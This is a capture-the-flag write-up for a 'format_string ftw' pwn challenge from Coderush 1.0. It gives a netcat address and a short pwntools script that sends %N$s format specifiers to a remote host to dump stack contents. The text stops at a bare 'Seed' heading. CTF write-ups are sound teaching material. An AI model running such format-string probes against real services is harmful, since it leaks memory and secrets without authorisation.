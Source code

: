 ```yaml
---
comments: true
authors:
  - gr007
tags:
  - coderush
  - pwn
  - rev
  - format string vulnerability
  - integer overflow
---
```


# Coderush 1.0

## format_string ftw

### Description

No one should see what I have in stack! Its only mine!

`nc 139.59.0.163 7777`

>Author: `peace_ranger`

### Solution

We are only given a connection information. we can connect to this via netcat. as this is a black box challenge where the clues are given in the challenge name and description, nothing else need to be said. The following exploit should work just fine:

```python
#!/usr/bin/env python

from pwn import *


for i in range(1,200):
    p = remote("139.59.0.163",7777)
    x = f'%{i}$s'
    p.recvline()
    p.sendline(bytes(x,"UTF-8"))
    print(p.recvline())

```

---

## Seed

